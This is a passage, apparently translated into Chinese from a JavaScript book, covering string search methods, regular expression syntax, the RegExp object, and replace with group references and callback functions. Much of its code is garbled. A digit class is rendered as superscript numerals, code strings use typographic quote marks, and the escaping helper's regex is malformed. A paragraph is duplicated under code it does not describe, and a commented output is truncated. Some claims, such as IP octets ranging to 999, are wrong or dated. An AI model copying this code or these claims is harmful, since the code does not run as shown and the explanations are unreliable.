你至少必须为其提供一个要搜索的字符串，但你可以可选地向函数传递一个从此处开始扫描的起始位置（起始位置是包含在内的）。

```javascript
var presidentInfo = "As an outspoken opponent of the expansion of slavery in the United States, Abraham Lincoln won the Republican Party nomination in 1860 and was elected president later that year. Abraham Lincoln was one of our most important leaders.";

document.write( presidentInfo.indexOf("Lincoln") + "<br />");  // 83
document.write( presidentInfo.indexOf("Lincoln", 84) );  // 186
```

在第一个 `document.write()` 中，我从字符串开始处搜索单词 `"Lincoln"` 的第一个实例。在第二个中，我再次进行搜索，但将起始位置设置为字符 `84`。当我设置起始位置时，解释器会将提供索引处的字符作为搜索的一部分。

所有处理字符串中字符位置的 JavaScript 函数都是基于零索引的。字符串中的第一个字符始终位于位置零，字符串中的最后一个字符位于字符串长度减一的位置。

你可以通过 `.lastIndexOf()` 反转搜索方向。

`myStr.lastIndexOf(searchstring[, startpos])`

如果你使用 `.lastIndexOf()` 从反方向搜索同一个段落，你将获得反序的位置：

```javascript
document.write( presidentInfo.lastIndexOf("Lincoln") + "<br />"); // 186
document.write( presidentInfo.lastIndexOf("Lincoln", 84) );  // 83
```

该方法返回字符串中相同的从左到右字符位置，但它是从右到左扫描字符串的。

### A contains 方法

如果你想测试搜索字符串是否仅仅存在另一个字符串中，你可以采取如下：

```javascript
if (myStr.indexOf(searchString) > -1) {
    // 找到！
} else {
    // 未找到！
}
```

更简单、更具复性的方法可能是使用辅助函数封装 `String` 原型，该函数只需返回布尔值：

```javascript
String.prototype.contains = function(str) {
  if (str && this.indexOf(str) > -1)
    return true;
  else
    return false;
}
```

在我们之前的段落上使用它非常简单：

```javascript
document.write( presidentInfo.contains("Lincoln") + "<br />");  // true
document.write( presidentInfo.contains("Reagan") );  // false
```

在本章后面，你将改进简单的 `.contains()` 方法，以支持使用正则表达式的复杂搜索模式。

## 正则表达式

在查看字符串的其他搜索功能之前，你需要理解正则表达式这个概念，也称为 "regex" 或 "regexp"。正则表达式是一种描述特定文本搜索模式的方法。另一种思考方式是将其看作一种“超级通配符”。你熟悉 SQL 世界（使用 `%` 符号）和文件系统（例如，目录中所有 Microsoft Word 文档可以描述为 `*.docx`）中的通配符。

可以在正则表达式中定义的通配符类型范围从简单的：

- 找到文本中任何地方出现的单词 "Lincoln" 的所有实例。

- 找到文本中的每一个换行符。

到复杂的：

- 找到任何字母数字字符的实例。

- 定位任何以文本 "nuclear" 开头的单词。

- 识别所有带有美元符号且带有两个小数点的数字。

- 找到每个被双引号包围的单词。

你可能会奇怪，为什么需要这种语言，因为任何开发者可能都可以使用其他内置字符串方法编写自己的搜索程序。其中原因之一是简单性——如果你能为我们的搜索模式编写一个简单的单行表达式，就不需要编写和调试整个搜索程序（这可能极其复杂）。另一个原因是性能——大多数 JavaScript 解释器内置的正则表达式引擎经过了高度优化，通常运行速度会比你在脚本中可能设计的程序要快。搜索是一门复杂且具有技术性的学科，最好留给专业人士处理。这就是为什么你应该学习使用正则表达式——因为你可以将时间花在应用程序的其他领域上。

在 JavaScript 中，正则表达式直到 ECMAScript 规范第 3 版本才最终标准化。JavaScript 1.2 包含了此功能的一个小但关键子集（包括 Netscape 4.0+，当然还有 Firefox），并在 v1.5 中完全实现（Netscape 6.0+ 和 Firefox 1.0）。在 Internet Explorer 中，它首先在 JScript 3.0 (Internet Explorer 4.0) 中实现，并随着每个 JScript 版本的更新进行完善。Safari 的所有版本和 Opera 6.0+ 也支持 RegExp。

JavaScript 的正则表达式实现与其他相比有几个局限性：

- 后向查找（Lookbehind）支持是非标准的且未广泛实现。然而，支持向前查找（Lookahead）。

- 对 Unicode 支持并不完全。但是，可以使用 `\uXXXX` 匹配单个 Unicode 字符。

- 不支持条件判断。

- 不支持正则注释。

- 不支持匹配字符串开头或结尾的 `\A` 和 `\Z` 锚符号。请使用脱符号或美元符号。

- 不支持命名捕获组——仅支持数字组。

本节首先介绍正则表达式本身以及如何构建它们，然后介绍 `RegExp` 对象本身，这是它们在 JavaScript 中的表示方式。完整的正则表达式参考超出了本书的范围，但这里提供的内容足够作为基础表达式构建的参考了。

### 定义

创建正则表达式实例有两种基本方法。一种方法通过 `RegExp` 对象的构造函数。请记住查看第 10 章中关于构造函数的描述。目前，你只需要知道可以通过构造函数创建一个正则表达式的实例，该构造函数接受一个或两个参数：

```javascript
var myRegex = new RegExp(regexString[, flags]);
```

第一个参数是包含正则表达式的字符串。第二个可选参数是你希望应用到表达式的任何标志（flags）。例如：

// 匹配所有像 IP 地址的字符串：000.000.000.000

```javascript
var myRegex = new RegExp("\\b\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\b", "g");
```

然而，实际上有一种简单得多的方法定义正则表达式，那就是使用 RegExp 字面量格式。JavaScript 中的正则表达式字面量由两个正斜杠（`/ .. /`）包围。例如：

```javascript
// 用于所有像 IP 地址的字符串的正则字面量
/\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b/g
```

```javascript
var ipFinder = /\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b/g;
```

使用字面量（literals）时，搜索模式位于正斜杠（`/` ... `/`）之间，任何全局标志都紧跟在最后一个正斜杠之后。在上面的示例中，`g` 表示 `global search`（全局搜索）或重复搜索模式。目前仅支持三种有效的标志：

标志可以像这样在字面量中组合在一起：`/lincoln/gi`

通常情况下，使用字面量语法来创建 `RegExp` 实例比使用构造函数要好得多，因为使用构造函数时，你必须对出现的任何反斜杠进行编码（它们通常是存在的）。但是，如果你想包含一个变量（例如用户输入的内容），你`必须`使用构造函数，因为你无法在字面量内部使用 JavaScript 变量。

字面量的语法非常直观。正斜杠（`/` ... `/`）之间的大部分字母和数字都被视为字面量。例如，如果你想在字符串中定位单词 "Lincoln" 的第一次出现，你可以将字面量定义为：`/Lincoln/`

某些符号（如大多数标点符号）具有特殊含义。例如，方括号 `[]` 表示搜索括号内的任意一个字符。例如，如果你想替换句子中的每个字母 "a" 或 "i"，你可以像这样做：`/[ai]/g`

另一个“特殊”符号是反斜杠 `\`，它表示转义序列。例如，如果你想定位文本块中的每个换行符，可以使用：`/\n/g`，因为 `\n` 象征换行符。有很多这类 `special characters`（特殊字符）你需要注意。

### 特殊字符

正如我之前提到的，某些“特殊”非字母数字符号可以使用以反斜杠（`\`）开头的 `escape sequence`（转义序列）在正则表达式中表示。以下是通常接受的转义序列列表：

这些之外，以下符号在 `RegExp` 表达式中都具有特殊意义：`(` `)` `{` `}` `/` `\` `|` `!` `:` `=` `?` `*` `+` `^` `$`

在搜索中包含这些特殊字符非常简单。假设你想替换文本块中的所有换行符。你可以像对待普通的字母数字字符一样匹配换行符号：`/\n/g`

### 重复

在正则表达式语法中，有几种方法可以定义文本中特定的 `structures`（结构）。其中一种就是重复。重复符号提供了一种指定你想要匹配 `how many`（多少个）最后一个项目的方法。例如，如果你正在对包含 12 个数字的信用卡号进行搜索，你可以为长度为 12 个数字的数值定义一个重复器。

假设你想在字符串中定位 IP 地址。正如大家所知，IP 地址是一个包含四组 0 到 999 之间的数字的字符串，并用点分隔。示例可能是 "192.168.0.1"312.532.234.552" 或 "1.1.1.1"。你`可以`这样描述对该字符串的搜索：`/\d\d\d\.\d\d\d\.\d\d\d.\d\d\d/g` 这基本上描述了四组由点分隔的三位数数字。这对于像 "192.168.100.100" 或 "475.324.246.843" 这样的字符串有效。遗憾的是，许多 IP 地址的某些值只有一位或两位，例如 "192.1.0.1"。为了支持这一点，你可以使用重复语法来描述 1 到 3 位数字的数值：`/\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/g`

该组中的另一个非常有用的符号是 `(?)`（匹配零次或一次）。它通常与分组（稍后将讨论）结合使用，以提供“可选”字符串。参考上表中的示例：`/Java(Script)?/g` 这表示定位单词 "Java" 的所有实例，并可选地搜索 "JavaScript"（其中 "Script" 出现零次或一次）。

### 位置

当你引用位置语法时，你主要指的是匹配项在整个搜索文本中的位置、在特定行内的位置（在多行模式下）或在单词内的位置（由周围的空格和标点符号定义）。帮助我们的符号有：

需要重要的是，上表提到的多行模式并不是通用的支持的。事实上，目前仅在 Internet Explorer 5.5+ 中受支持。

这些位置符号真正的威力在于单词边界符号。它们允许我们精确指定你正在查找的内容。如果你正在搜索包含单词 "turbo" 的复合词，但不想专门匹配 "turbo" 本身，单词边界符号将允许我们做到这一点。假设你想匹配像 "turbocharged" 或 "turbopowered" 这样的单词并排除单独的 "turbo"，你可以组合单词边界符号（`\b`）和非单词边界符号（`\B`来实现：`/\bt\B/gi`

### 分组

有很多种方法可以识别字符串中的分组。以下是用于此目的的运算符列表：

分组可以用于表示内容的 `sets`（集合）或 `ranges`（范围）。例如，假设我们的应用程序中有一个仅用于信用卡号的文本字段。你可以安全地假设你不希望该字段中出现任何非数字符号。你可以搜索该字段的值，查找任何不在数字集合中的字母。例如：`/[⁰¹²³⁴⁵⁶⁷⁸⁹]/g`

在你列出的方括号内，你在脱字符符号（`^`）后面列出了每个数字。脱字符符号意味着匹配`不在`后续集合中的任何字符。如果你在字符串 "I have $19.23 in my pocket." 上运行此匹配并将每个字母替换为 "X"，它看起来会像这样：`XXXXXXXXXX`。你也可以简化此表达式，因为连续数字列表也是一个 `range`（范围）。你可以使用连字符符号来定义范围：`[⁰-9]` 其他有效的范围可能是 `[a-z]` 或 `[A-Z]`（表示大写字母）。

你可以通过使用圆括号分组来简化之前的 IP 地址搜索模式。记得你确定了使用以下表达式来在字符串中找到类似 "192.168.0.1" 或 "523.255.873.334" 的数字：`/\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/`

使用简单的分组，你可以更清晰地进一步简化此表达式：`/(\d{1,3}\.){3}\d{1,3}/` 这基本上说在我们期望的匹配中，你将找到恰好 3 个 1-3 位数字后跟点的情况，以及最后一个相同但不带任何点的最终实例。通过使用我们的括号对前两个表达式进行分组，你指定了一个复杂子搜索的重复。

### 分组（续）

假设你想搜索名字 "McAllister"，但你不确定人们是如何对 "Allister" 部分进行大小写的。你可以实现此点的一种方法是使用 `i` 标志进行不区分大小写的搜索：`/mcallister/gi`。你也可以使用在这里学到的知识来专门搜索该单词的正确大小写版本：`/Mc[Aa]llister/g`

另一个实用的技术是使用 `*`（匹配零次或多次）来允许我们匹配也包含我们的搜索字符串的 `whole words`（完整单词）。考虑以下示例：`/\bAlex(\w*)\b/g` 如果你有像下面这样的搜索文本：Alex Alexei Alexander Alexandra。你可以应用上面的搜索模式来匹配每个以 "Alex" 开头的完整单词。首先，`\b` 表示搜索字符串必须位于单词开头。接下来，字面量 `Alex` 作为我们的搜索字符串。接着，你使用一个分组来组合一个表达式 `(\w*)`，它基本上表示匹配该之后出现的任何零次或多次单词字符。在闭括号之后，你使用单词边界（`\b`）表示搜索也包括单词的*结尾*。如果你在上面的字符串上应用替换，将每个实例替换为字母 "x"，你将得到：x x x x。

搜索模式中，你可以指定想要查找 `x` *或* `y` 的匹配项。你可能想这样做，例如在我们的搜索中允许范围范围。即：替换单词 "JavaScript" *或* "VBScript"，或者允许 000 到 999 之间的任何数字。在搜索模式中指定替代方案有几种方法。

一种是使用你已经熟悉的括号符号 `[ .. ]`。如果我们的替代集合是单个字符（例如数字或字母），则它非常有用：

```
/\b[Jj]ava[Ss]cript\b/g
```

它将涵盖 "javascript","Javascript","JavaScript" 或 "javaScript"。或者：

```
/[^a-z \n]/g
```

它将涵盖任何不是 "a" 到 "z" 之间的字母、空格或换行符。你也可以使用 `(?)`（匹配零次或多次）表示法来实现。假设你想匹配 "VBScript" 或 "JavaScript"，你可以这样写表达式：

```
/\b(VB)?(Java)?Script\b/g
```

它将匹配任何以 "VB"（可选）、"Java"（可选）或仅 "Script" 开头的单词。

还有另一种方法，它涉及*交替*符号（垂直竖线）：

你可以使用交替管道符号重写我们的表达式：

```
/\b(VB|Java)?Script\b/g
```

这将继续匹配 "VBScript","JavaScript" 或仅 "Script"。交替符号可以支持任意数量的替代方案，而不仅仅是两个。你可以同样轻松扩展此可能性列表以包含其他项：`/\b(VB|Java|ECMA|Action)Script\b/g`。

## 模式复用

另一个方便的特性是由分组符号 `( .. )` 支持的模式复用语法。每当你对一个表达式进行分组且不使用 `(?: .. )` 语法时，你就可以在表达式后面的部分再次引用该组。

这的一个示例是在某些文本中搜索电话号码。取以下文本：

Hi my name is Jerry and my employee ID is 934,131.4323 and my phone number is 219-423-4432.

如果你想搜索通用的电话号码，可能会搜索一组由连字符分隔的数字。然而，在某些地区，人们不使用连字符——他们而是使用空格或点。如果你想从文本中提取电话号码但不知道他们使用哪种符号，你可以这样构建我们的模式：

```
/\b\d{3}[- \.,]\d{3}[- \.,]\d{4}\b/g
```

遗憾的是，因为你可以在这些符号之间进行选择，而且我们的引号中有两个符合这个通用描述的独立数字，你将得到一个误报（false positive）。你需要的是检测出具体是什么*类型*的分隔标记（连字符、空格或其他），然后在整个模式中重复对该精确符号的搜索——因为你知道电话号码在整个过程中都会使用相同的符号。

你可以使用 `\1` 来做到。使用 `\1` 指向第一个分组表达式的*结果*。同样，`\2` 指第二个，`\3` 指第三个，以此此类推。你可以通过将第一个符号查询 `([- \.,])` 放在一个组内，并将最后一个符号查询替换为对第一个结果的引用来修复我们的查询：

```
/\b\d{3}([- \.,])\d{3}\1\d{4}\b/g
```

如果你运行将该搜索结果替换为字母 "x"，你将简单得到：Hi my name is Jerry and my employee ID is 934,131.4323 and my phone number is x。现在你已经查看了构建正则表达式的大部分基础知识，你将涵盖 `String` 对象中利用它们来定位和处理文本的部分。

## RegExp 对象

在 JavaScript 中，正则表达式由 `RegExp` 对象表示。下面是组成该对象的方法和属性。你应该查看附录 B 以获取完整的兼容性信息，因为它在不同的 JavaScript 引擎中的实现方式存在细微差异。

## 基础

该对象的属性是属于你创建的每个正则表达式对象的*实例*属性。`.exec()` 和 `.test()` 方法可以作为实例方法使用，也可以作为 `RegExp` 对象的静态方法。

作为实例属性使用的重要属性有：

* `global`: 告诉我们搜索是否重复（布尔值）。映射到 `g` 标志。

* `ignoreCase`: 表示搜索是否区分大小写（布尔值）。映射到 `i` 标志。

* `lastIndex`: 包含上一次模式匹配字符位置的数字。

* `multiline`: 表示是否在多行模式下执行搜索（布尔值）。映射到 `m` 标志。

* `source`: 源正则表达式的字符串值。

你可以从任何正则表达式读取这些属性，无论它是使用字面量创建的（`var myRegexp = /Java(Script)?/g`）还是使用对象构造函数（`var myRegexp = new RegExp("Java(Script)?", "g");`）。例如，如果你取示例并读取其属性：

```javascript
var myRegexp = /Java(Script)?/g;
document.write(myRegexp.global + "g"); // true
document.write(myRegexp.ignoreCase + "i"); // false
document.write(myRegexp.multiline + "m"); // false
document.write(myRegexp.source + "Java(Script)?"); // Java(Script)?
```

## 改进后的 contains

现在你学习了 `.test()` 方法，可以回到本章之前的示例，在那里你编写了自己的 `.contains()` 方法来检查字符串是否存在于另一个字符串内部。

```javascript
String.prototype.contains = function(str) {
  if (str) {
    if (str instanceof RegExp) {
      return str.test(this);
    } else {
      return (this.indexOf(str) > -1);
    }
  }
}
```

在这个版本中，你测试传递给方法的参数是 `RegExp` 还是字符串。如果是 `RegExp`，你执行 `.test()` 方法。否则，你继续依赖 `.indexOf()`。你使用几个字符串和我们之前的正则表达式进行测试：

```javascript
var myString = "Both Java and JavaScript share the same name, but are quite different.";
console.log(myString.contains(/Java(Script)?/g)); // true
console.log(myString.contains("share")); // true
console.log(myString.contains("not present")); // false
```

 使用 RegExp 对象执行搜索

你可以直接使用 `RegExp` 对象来执行搜索，而不需要依赖 `String` 对象上的其他内置函数如 `replace()`、`search()` 或 `match()`。你通过使用已经看过的 `.test()` 方法，或者执行更全面搜索的 `.exec()` 方法来实现。如果你取之前的示例并使用 `exec()`，你可以如下方式迭代匹配项：

```javascript
var myRegexp = /Java(Script)?/g;
var myString = "Both Java and JavaScript share the same name, but are quite different.";

myRegexp.exec(myString);
console.log(myRegexp.lastIndex); // 9

myRegexp.exec(myString);
console.log(myRegexp.lastIndex); // 24

myRegexp.exec(myString);
```

```javascript
document.write( myRegexp.lastIndex );  // 0
```

在对字符串 `myString` 执行初始的 `exec()` 操作后，你写出正则表达式对象的实例属性 `lastIndex`。如果结果为 `0`，则说明没有找到匹配项。如果结果为 `>0`，则该结果为第一个匹配项的字符位置（注：此处原文逻辑似乎有误，通常 `>0` 表示找到匹配）。你可以通过反复调用 `exec()` 来继续搜索字符串。一旦遇到 0，就说明你已到达字符串末尾，它它将从头重新开始。如果你想强制搜索从开头重新开始，可以手动将 `lastIndex` 设置为 0。

### 使用静态属性

静态 `RegExp` 对象还会维护上一次执行搜索的状态，无论是通过 `test()` 还是 `exec()`。有几个可用的静态属性，它们可以告诉我们关于正在进行的搜索的一些信息。它们包括：

- `input`: 正在搜索的字符串。映射到符号 `"$_"`。

- `lastMatch`: 上一次与正则表达式匹配的字符串。映射到符号 `"$&"`。

- `lastParen`: 上一次匹配的组。映射到符号 `"$+"`。

- `leftContext`: 上一次匹配字符串之前的子串。映射到符号 `"$‘"`。

- `multiline`: 表示搜索是否在多行模式下执行。映射到符号 `"$*"`。

- `rightContext`: 上一次匹配字符串之后的子串。映射到符号 `"$'"`。

这些细节提供了关于上一次执行搜索的信息。例如，如果你回到之前的示例并进入搜索的第二次迭代，你将得到以下结果：

```javascript
var myRegexp = /Java(Script)?/g;
var myString = "Both Java and JavaScript share the same name, but are quite different.";
myRegexp.exec(myString);
myRegexp.exec(myString);

// 现在你处于位置 24 
document.write( RegExp.input + "<br />" );    // "Both Java and JavaSc.." - 整个字符串
document.write( RegExp.lastMatch + "<br />" );    // "JavaScript"
document.write( RegExp.lastParen + "<br />" );    // "Script"
document.write( RegExp.leftContext + "<br />" );    // "Both Java and"
document.write( RegExp.rightContext );    // "share the same name, but are quite different."
```

你可以看到，如果你正在执行复杂的搜索，并且需要关于匹配字符串*周围*的信息以及实际匹配的内容，那么使用这些属性可以做很多事情。

在上面的列表中，你提到每个属性都有一个对应的符号，也可以用这些符号来获取相同的值。然而，这些符号的可读性稍差：

```javascript
document.write( RegExp["$_"] + "<br />" );    // "Both Java and JavaSc.." - 整个字符串
document.write( RegExp["$&"] + "<br />" );    // "JavaScrip"
document.write( RegExp["$+"] + "<br />" );    // "Script"
document.write( RegExp["$‘"] + "<br />" );    // "Both Java and"
document.write( RegExp["$"] );      // "share the same name, but are quite different."
```

### search 方法

`.search()` 方法与 `.indexOf()` 相似，它返回字符串或模式的字符位置，或者在未找到时返回 -1。不同之处在于它可以使用正则表达式来执行此操作。例如，假设你想在一个文本块中搜索电话号码。使用 `.indexOf()` 做到这一点非常困难，因为号码本身可以是任何数字。使用 `.search()` 则这就简单多了。

```javascript
var SearchText = "Hi my name is Jerry and my phone number is 219-423-4432.";
document.write( SearchText.search(/\b\d{3}([- \.,])\d{3}\1\d{4}\b/g) );    // "43"
```

在这个示例中，你创建了一个文本块并将其赋值给 `SearchText`，接下来，你在字符串中搜索一个定义电话号码格式的正则表达式。就像我们的 `.indexOf()` 函数一样，返回的结果告诉我们存在一个电话号码，以及它在文本中的起始位置，在本例中是位置 43。

### match 方法

`.match()` 方法与 `.search()` 相似，不同之处在于它不是返回字符位置，而是返回该正则表达式的匹配项数组。数组中的每一项都是匹配的文本。如果你扩展我们之前的电话号码示例，可以说明它是如何工作的：

```javascript
var SearchText = "Hi my name is Jerry and my phone number is 219-423-4432\. You can also reach me at 219-482-3423, or after hours at my home: 219-843-1244.";
var results = SearchText.match(/\b\d{3}([- ])\d{3}\1\d{4}\b/g);
if (results)
    for (var i = 0; i < results.length; i++)
        document.write(results[i] + "<br />");
```

这次有几个你可能想要提取的电话号码。你确保添加了 `"g"` 全局标志，以便搜索不仅仅找到第一个实例。接下来，你将 `.match()` 调用的结果赋值给一个变量。然后你检查变量 `results` 是否为空（如果没有结果，它将为 null）。最后，你遍历数组中的每一项并输出该项。这将产生以下输出：

219-423-4432

219-482-3423

219-843-1244

### replace 方法

`replace()` 方法正如其名所示——它用其他文本替换文本。它基于纯文本*或*正则表达式执行操作。许多 JavaScript 开发者知道 `replace()`，但他们通常不知道它的完整功能范围。所有浏览器支持的基础语法为：

`stringObj.replace(rgExp, replaceText)`

第一个参数 (`rgExp`) 是搜索字符串或模式，第二个参数 (`replaceText`) 是将替换任何找到的匹配项的文本。基于 Mozilla 的浏览器（如 Firefox 和 Netscape）支持一些额外的语法，包括可选标志，但由于 Explorer 或其他浏览器不支持，而且由于你可以以正则表达式的形式表示这些标志，因此我们在这里不会讨论它们。

在最基本的形式下，你可以不使用正则表达式而对字符串进行简单的搜索和替换：

```javascript
var myString = "Both Java and JavaScript share the same name, but are quite different.";
document.write( myString.replace("Java", "X") );
```

该操作的结果将是：“Both X and JavaScript share the same name, but are quite different.” 注意，只有*第一个*实例 `"Java"` 被替换为了 `"X"`。这种模式匹配等同于正则表达式 `/Java/`。你可以轻松地将我们的字符串模式替换为匹配*所有*实例 `"Java"` 的正确正则表达式：

```javascript
myString.replace(/Java/g, "X")
```

根据你已经学到的关于正则表达式的知识，你知道表达式 `/Java/g` 指定了对单词 "Java" 的*全局*搜索。你可以直接在我们的替换语句中使用此 `RegExp` 字面量。它现在将正确地选出所有的单词实例：“Both X and XScript share the same name, but are quite different.”

### 替换符号

在较新的浏览器中（Internet Explorer 5.5+,Netscape 6+、Firefox、Opera、Safari 和 Chrome），可以使用许多符号来提供复杂的替换方案。其中某些符号在之前关于 `RegExp` 对象的讨论中看起来很熟悉：


的一个简单示例是将匹配项包含在我们的结果中。例如，如果你取之前的句子并对 "Java" 或 "JavaScript" 进行通配符搜索，你可以将结果（无论匹配到的是什么）放在引号内，如下所示：

```javascript
var myString = "Both Java and JavaScript share the same name, but are quite different.";
var myRegexp = /Java(Script)?/g;
```

`document.write( myString.replace(myRegexp, ″′$&′″) + ″<br />″);` 输出将如下所示：Both ′Java′` and ′JavaScript′` 名字相同，但它们完全不同。

另一个非常有用的替换符号是 `$nn` 符号，它们本质意味着你可以获取正则表达式中特定分组中匹配到的任何内容，并将其用在我们的替换文本中。如果你回到本章早期关于“分组（Groupings）”的部分，你就会看到我们所说的分组是什么了。

一个能很好说明这种力量的例子是，如果你想以前一样搜索电话号码，并标准化所有的连接符号。例如，如果你在某些文本中有一堆电话号码，但其中一些使用连字符，另一些使用点来分隔数字组，你可以进行替换，对每个数字集进行分组，并使用这些分组让像 `"604.218.3121"` 和 `"604 348 2342"` 的数字看起来像 `"604-218-3121"` 和 `"604-348-2342"`。

如果这让你感到困惑，别担心！看看下面的示例就能理解我们的意思：

```javascript
var SearchText = ″Hi my name is Jerry and my phone number is 219.423.4432\. You can also reach me at 219 482 3423, or after hours at my home: 219-843-1244.″;

var myRegexp = /\b(\d{3})([- \.])(\d{3})\2(\d{4})\b/g;

document.write( SearchText.replace(myRegexp, ″$1-$3-$4″) );
```

在我们示例的 `SearchText` 中，你有三个电话号码 -它们都使用不同的方法来分隔数字。你想将它们标准化，使它们看起来都一样（使用连字符）。在我们的正则表达式 `/\b(\d{3})([- \.])(\d{3})\2(\d{4})\b/g` 中，你正在做几件重要的事情。

在基础层，你定义了电话号码的模式，即三组数字 - 第一组三位数字，第二组三位数字，第三组四位数字。你对每组数字用圆括号 `( .. )` 进行了分组。在下方 `SearchText.replace()` 调用中的替换文本中，你使用符号 `$1`、`$3` 和 `$4` 来引用这些分组。第一组称为 `$1`，第三组称为 `$3$，依此类推。

在我们的正则表达式中，第一组和第二组之间还有另一个分组，指的是数字之间的符号。我们在替换字符串中忽略了它，因为你想使用自己的符号。

输出字符串将如下所示：Hi my name is Jerry and my phone number is 219-423-4432\. You can also reach me at 219-482-3423, or after hours at my home: 219-843-1244.

在 Internet Explorer 5.0 和 Netscape 4 及以下版本中，此用途最多支持九组。在较新的浏览器中，限制已提高到 99 组。

### 使用函数扩展替换模式

关于 `replace()` 方法，你想要提到的最后一个非常有趣的特性是，可以将函数作为参数传递，以进行更复杂的替换。此特性在 Internet Explorer 5.5（包含在此）、Netscape 6.0、Opera、Safari 和 Chrome 之后的所有浏览器中都得到了支持。

当你指定一个函数而不是字符串时，一旦找到匹配项就会调用该函数。在我们的函数中，你可以动态生成替换匹配项的字符串。你从此函数返回的任何内容将用于此处。

向你创建的函数传递了几个可选参数：

- 第一个参数总是匹配的精确文本。

- 接下来的 `n` 个参数对应于正则表达式 `/\b(\d{3})([- \.])(\d{3})\2(\d{4})\b/g` 中捕获括号子匹配的数量，这里有四个。

- 接下来的两个参数是匹配项在字符串中的偏移量，然后是字符串本身。

你不需要使用所有这些参数。通常你只需要第一个参数来帮助我们：

```javascript
var SearchText = ″Hi my name is Jerry and my phone number is 219.423.4432\. You can also reach me at 219 482 3423, or after hours at my home: 219-843-1244.″;

var myRegexp = /\b(\d{3})([- \.])(\d{3})\2(\d{4})\b/g;

var resultText = SearchText.replace(myRegexp, function(match) {
  var NumberWords = {′0′:′Zero′, ′1′:′One′, ′2′:′Two′, ′3′:′Three′, ′4′:′Four′, ′5′:′Five′, ′6′:′Six′, ′7′:′Seven′, ′8′:′Eight′, ′9′:′Nine′};

  for (num in NumberWords)
    match = match.replace(new RegExp(num), NumberWords[num]);

  return match;
});

document.write( resultText + ″<br />″);
```

在我们示例的 `SearchText` 中，你有三个电话号码 -它们都使用不同的方法来分隔数字。你想将它们标准化，使它们看起来都一样（使用连字符）。在我们的正则表达式 `/\b(\d{3})([- \.])(\d{3})\2(\d{4})\b/g` 中，你正在做几件重要的事情。在基础层，你定义了电话号码的模式，即三组数字 - 第一组三位数字，第二组三位数字，第三组四位数字。你对每组数字用圆括号 `( .. )` 进行了分组。在下方 `SearchText.replace()` 调用中的替换文本中，你使用符号 `$1`、`$3` 和 `$4` 来引用这些分组。第一组称为 `$1`，第三组称为 `$3$，依此类推。在我们的正则表达式中，第一组和第二组之间还有另一个分组，指的是数字之间的符号。我们在替换字符串中忽略了它，因为你想使用自己的符号。输出字符串将如下所示：Hi my name is Jerry and my phone number is 219-423-4432\. You can also reach me at 219-482-3423, or after hours at my home: 219-843-1244. 在 Internet Explorer 5.0 和 Netscape 4 及以下版本中，此用途最多支持九组。在较新的浏览器中，限制已提高到 99 组。

## 示例

现在让我们来看看开发者执行的一些实际示例任务。

### 编码正则表达式符号

有时，你需要对字符串中的可能干扰正则表达式的符号进行转义。对于像 `[` `]` `.` `*` `+` `?` `$` 等具有特殊含义的符号尤其如此。幸运的是，你可能想要编码的符号集是广知的：

```javascript
String.prototype.encodeRegExp = function() {
  return this.replace([[*+-.?^}()|[\]\\]/g, '\\1');
}
```

这里你使用 `$1` 引用匹配字符串并在前面加上反斜杠。下面是一个基础演示：

### 基于用户输入进行搜索

开发者经常想知道如何根据用户输入执行正则表达式搜索。这可能会让人困惑，因为你不允许在正则表达式*字面量*中引用 JavaScript 变量。如果你有一个名为 `myName` 的变量，你不能简单地构建像 `/myName/` 的字面量，因为你实际上是在搜索字符串 "myName"。相反，将你刚刚学会编码正则表达式符号的知识与你对 `RegExp` 构造函数的了解结合起来来实现相同的效果：

```javascript
String.prototype.encodeRegExp = function() {
  return this.replace([[*+-.?^}()|[\]\\]/g, '\\1');
}

String.prototype.getCount = function(str) {
  var regEx = new RegExp(str.encodeRegExp(), "g");
  return this.match(regEx).length;
}
```

为了演示这个概念，你创建了一个函数来统计字符串在另一个字符串中出现的次数。你将搜索字符串作为参数传递给 `getCount()`，然后使用你之前编写的 `encodeRegExp()` 方法对其编码以防止正则表达式符号，并将其转换为 `RegExp` 对象。最后，你运行字符串函数 `match()`，它返回一个数组，并将数组的长度输出到文档中。

### 修剪空白

有时你想在将用户输入的字符串保存到服务器或在页面其他地方使用之前对其处理。这样做的一个关键要素有时是移除空白。如果你在验证密码质量或用户名长度，可能需要这样做。使用我们方便的字符串原型和识别空白符号的正则表达式，你可以这样做：

```javascript
String.prototype.trim = function() {
  return this.replace(/^([\s]+)|([\s]+)$/gm, "");
}

var originalString = ″ The quick brown fox jumped over the small frog. ″;
```

```javascript
var trimmedString = originalString.trim();

document.write( ″Original String length: ″ + originalString.length + ″<br />″);

document.write( ″Final String length: ″ + trimmedString.length + ″<br />″);

document.write( ″Final String: ″ + trimmedString);
```

这将会生成如下输出：

Original String length: 54

Final String length: 50

Final String: The quick brown fox jumped over the small frog.

我们的正则表达式有效地结合了两个独立的操作：移除字符串或行开头的空白，以及移除字符串或行末的空白。在可用的情况下，这里使用了多行模式（multiline mode）来对每行的开头和结尾进行修剪。你可以将这两个操作提取出来，创建一个左修剪（ltrim）和一个右修剪（rtrim）：

```javascript
String.prototype.ltrim = function() {
    return this.replace(/^[\s]+/gm, ″″);
}

String.prototype.rtrim = function() {
    return this.replace(/[\s]+$/gm, ″″);
}
```

这涵盖了其他语言中标准的 `trim()` 行为，但如果你只想移除所有多余的空白，即使它们出现在字符串中间该呢？使用我们的重复运算符 `+`，你可以将任何空白序列替换为单个空格，然后对它运行 `trim()` 来获取两端的结果：

```javascript
String.prototype.clean = function() {
  return this.replace(/\s+/g, ″ ″).replace(/^([\s]+)|([\s]+)$/gm, ″″);
}
```

现在你可以回到我们之前的示例，添加一些空白，并看看效果如何：

```javascript
var originalString = ″ The quick      brown fox jumped      over the small frog. ″;

var trimmedString = originalString.clean();
```

现在我们修剪后的字符串将看起来像这样：″The quick brown fox jumped over the small frog.″。

## 模糊字符串比较

有时，了解两个字符串是否相似（即使它们并不完全相同）是很有用的。一个例子是比较用户 ID、密码、名称、搜索字符串等。你可以基于已经对正则表达式的了解，以及通过处理大小写的操作，将字符串还原为它的基础组件：字母。为此，你可以创建一个正则表达式来剔除空白和非字母数字字符 `(\s)|[^a-z0-9]/gi`，然后使用 `.toLowerCase()` 将其转换为小写：

```javascript
String.prototype.similar = function(str) {
    if (str) {
        var SimplifyRegex = /(\s)|[^a-z0-9]/gi;
